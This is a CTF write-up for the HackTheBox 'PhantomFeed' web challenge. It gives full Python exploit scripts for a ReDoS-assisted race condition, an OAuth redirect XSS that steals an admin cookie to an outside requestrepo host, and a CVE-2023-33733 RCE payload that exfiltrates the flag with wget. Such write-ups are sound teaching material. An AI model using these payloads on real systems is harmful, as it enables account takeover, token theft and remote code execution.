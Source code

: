 ```yaml
---
layout: writeup
parent: "HackTheBox University CTF: Brains & Bytes"
grand_parent: 2023
author: tomvg
category: web
tags: 
title: "PhantomFeed"
subtitle: ""
write_date: 2023-12-10
last_edit_date:
# layout: mathjax # Uncomment this line to enable MathJax
---
```


*Note: Backup of challenge source code available at [web_phantomfeed.zip](/assets/challenge-sources/2023/hackthebox-university-ctf-brains-bytes/web_phantomfeed.zip).*

The PhantomFeed challenge consists of three different components: the marketplace frontend (served at localhost:5000), the marketplace backend (localhost:4000) and a feed of messages (localhost:3000). All of these services are also served by a reverse nginx proxy (localhost:1337) made available on different paths (`/`, `/backend` and `/phantomfeed` respectively).

Similarly, the challenge also consists of three main parts, although we only know that with the power of hindsight.

## Registering a user

At `/phantomfeed/register` we can find the form that is used for registration, which will create a user account that still needs to be verified.

```python
db_session = Database()
user_valid, user_id = db_session.create_user(username, password, email)

if not user_valid:
  return render_template("error.html", title="error", error="user exists"), 401

email_client = EmailClient(email)
verification_code = db_session.add_verification(user_id)
email_client.send_email(f"http://phantomfeed.htb/phantomfeed/confirm?verification_code={verification_code}")
```

However, when we look into the email client, we can see that the code for sending the verification code is actually commented out, so currently not working.

```python
def send_email(self, message):
    pass
    # try:
    #     self.server = smtplib.SMTP(self.smtp_server, self.smtp_port)
    #     self.server.starttls()  # Use TLS for security
    #     self.server.login(self.username, self.password)
```

Circling back a bit, we can see that when a new user is created, it is actually verified as the default value of the `verified` column of users is set to `True`:

```python
class Users(Base):
  __tablename__ = "users"
  id = Column(Integer, primary_key=True)
  verification_code = Column(String)
  verified = Column(Boolean, default=True)
  username = Column(String)
  password = Column(String)
  email = Column(String)
```

So this means that between the `create_user` call and the `add_verification` call, we have created a user who is actually verified. This means that we have a race condition that would eventually allow us to register and login. However, this interval is unfortunately too small to reliably and practically exploit. Hence, we should try to make the window of opportunity larger. When looking at the implementation of EmailClient, this allows us to do exactly that.

```python
class EmailClient:
  def __init__(self, to_email):
    email_verified = self.parse_email(to_email)

...

  def parse_email(self, email):
    pattern = r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@(([0-9a-zA-Z])+([-\w]*[0-9a-zA-Z])*\.)+[a-zA-Z]{2,9})$"
    try:
      match = re.match(pattern, email)

...
```

When [checking](https://devina.io/redos-checker) whether that regular expression is vulnerable to ReDoS, we can see that it is. This allows us to arbitrarily increase the time that the created user is verified. All we have to do is enter an email that takes a long time to parse. Something like `'A@0' + ('AA.0' * n) + 'AA'` does the job well (the higher `n`, the longer the regex takes to match).

Exploiting the ReDoS and race condition looks as follows:

```python
import random
import string
import time
import asyncio
import aiohttp

def random_user():
  return ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))

BASE_URL = 'http://127.0.0.1:1337'  # change with remote IP
BASE_FEED_URL = BASE_URL + '/phantomfeed'

user = random_user()
email = 'A@0' + ('AA.0' * 10) + 'AA'
start = time.time()

async def register(user, email):
  async with aiohttp.ClientSession() as session, session.post(BASE_FEED_URL + '/register', data={"username": user, "password": "yyy", "email": email}) as response:
    await response.text()
    return

async def login(user):
  async with aiohttp.ClientSession() as session, session.post(BASE_FEED_URL + '/login', data={"username": user, "password": "yyy"}, allow_redirects=False) as response:
    text = await response.text()
    if 'Set-Cookie' in response.headers:
      print(response.headers.get('Set-Cookie'))
    return text

async def main():
  t = []
  t.append(asyncio.create_task(register(user, email)))
  for x in range(100):
    t.append(asyncio.create_task(login(user)))
  await asyncio.gather(*t)

asyncio.run(main())
```

If successful (in my experience, most of the times) it will spit out the cookies for a registered user.

## Stealing administrator token

Once we are able to login, we can access quite some more functionality. One example is adding new messages to the feed, that are then visited by the administrator account (Selenium webdriver, with token of administrator set as the `token` cookie).

After a lot of searching, and trying different ways to make use of the cookie, I found that the goal might be to steal the token. We can easily do that if we have an XSS (as the `HttpOnly` attribute is not set on the cookie). So... let's look for an XSS!

Trying all different endpoints, I noticed that the JSON response in `/phantomfeed/oauth2/token` was served with `text/html` as content type. And... this contained the `redirect_url`, which we can fully control, and wasn't validated.

So to exploit this we can do the following steps:

1. Create an OAuth authorization code for our user (by calling `/phantomfeed/oauth2/code`), and set the `redirect_url` to `<script src=//example.com/exploit.js></script>`.
2. Use that code in the URL for `/phantomfeed/oauth2/token` endpoint
3. Send that URL to the administrator bot
4. In `exploit.js` get the token from the administrator, using another call to `/phantomfeed/oauth2/token` (for which we need another valid token)
5. Leak the admin token to ourselves, and PROFIT

The complete exploit for this second phase looks as follows:

{% raw %}
```python
import requests
from base64 import b64encode

HOST = "127.0.0.1:1337"  # replace with remote host
BASE_URL = 'http://' + HOST
BASE_FEED_URL = BASE_URL + '/phantomfeed'

s = requests.session()
redirect_url = '<script/src=//foo.drud.us/htb-exploit.js></script>'
token_cookie = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjIyMDA2MiwidXNlcl9pZCI6MjcsInVzZXJuYW1lIjoiaUxKSkxaaGxSMlQwaVVpcCIsInVzZXJfdHlwZSI6InVzZXIifQ.vEvOFjMgvr6atU6IhT1AWjSjrBgxqPj3l2S0oTWyx1ZqlvUejG6Li7FFKtAtF5pvv5jf4TVN25KCE2gZWoJRvE702Ci2Ov0v6RYrwGOYQcUpNEzQZ5l7ueYEVRT8bWUuC3n0h_LNUmmiQHR53N-3IUE9xLKcqSCYw4nDJb-y24gU6P2Vwp4o0W4VbSnDNsBgTalSPbGIEcoo2DO5aupnVtQGCsIBaJ0fqRvDhwhY9zd_VL-mZ3PbVODdyi8efMEVsW6MR_gEPatWIciVfaN92xcty59sOneVGzyYsr6dvVuuiHrAch4VfqizuvO0_OZxrKTh5-vIbSPR1MRr8lTlng"  # replace with token obtained in first step
r = s.get(BASE_FEED_URL + "/oauth2/code?client_id=phantom-market&redirect_url=" + redirect_url, allow_redirects=False, cookies={"token": token_cookie})
code = r.headers.get('Location').replace(redirect_url + '?authorization_code=', '')
r = s.get(BASE_FEED_URL + "/oauth2/code?client_id=phantom-market&redirect_url=" + redirect_url, allow_redirects=False, cookies={"token": token_cookie})
code2 = r.headers.get('Location').replace(redirect_url + '?authorization_code=', '')


js = f'''
(async () => {{
  let resp = await fetch(`http://127.0.0.1:1337/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=${{atob('{b64encode(redirect_url.encode()).decode('utf-8')}')}}&authorization_code={code2}`);
  let json = await resp.json();
  await fetch(`http://muf9e4po.requestrepo.com/leak?${{json["access_token"]}}`);
}})();
'''

print('link to post to feed: ', "@127.0.0.1:1337/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=" + redirect_url + "&authorization_code=" + code)
print('JS to host in exploit.js\n=============================================')
print(js)
```
{% endraw %}

## RCE to get the flag

One functionality that only administrators can do, is generate PDFs of the orders. The PDF is generated based on an HTML, for which the `color` parameter can be controlled, and is used in the template as follows:

{% raw %}
```html
<font color="{{ color }}">
  Orders:
</font>
```
{% endraw %}

Looking for known exploits for the HTML2PDF library that was used, we quickly find CVE-2023-33733, that is an exploit for when the `color` attribute of a `font` is abused (surprise, surprise). Simply copy-pasting and adjusting the executed code of [the PoC for the CVE](https://github.com/c53elyas/CVE-2023-33733) did the trick.

The final exploit looks as follows:

```python
import requests

HOST = "127.0.0.1:1337"  # replace with remost host
BASE_URL = 'http://' + HOST
BASE_BACKEND_URL = BASE_URL + '/backend'

admin_token = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjIyMDQxNCwidXNlcl9pZCI6MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl90eXBlIjoiYWRtaW5pc3RyYXRvciJ9.nbn6qxsdKQBFtx9m-XQVy8wQlXZq-eSixcoi9PX7EZzRRecHDd2jKq2gElrCBWsmlAy9lZUNbV5BkiKlnfOMylvizqF3D_XbpFP-ExCDnnKcwnJbWA9DslhdsFLVFDuItEosHnQOE37lzs9Q5s1SakD3-PXU1S3vsI8A7kPn5jqxs6TGx0QwOfFJoL7cA8hVR71ZjDWrBtini2bBmOeTyVdEzk7nnrRbWTfO-Hvdp9gW11saDrktLCVuOyDPmWFLP6H9D5LfXuEfzcemd1xtCRc-2x5HwV-W7CmiZ6n5cUgfek7AenUoSC88xkVaicAzbQTShZ6eIT1UbqD2p1IxIQ"  # replace with token obtained in second phase
r = requests.post(BASE_BACKEND_URL + '/orders/html',
                  data={"color": "[[[getattr(pow, Word('__globals__'))['os'].system('wget http://muf9e4po.requestrepo.com/$(cat /flag*)') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"},
                  headers={"Authorization": f"Bearer {admin_token}"})
```

While listening for requests, we soon see the flag appearing; `HTB{r4c3_2_rc3_04uth2_j4ck3d!}`. Yay!

All in all, great challenge - nice that it was built in different phases!
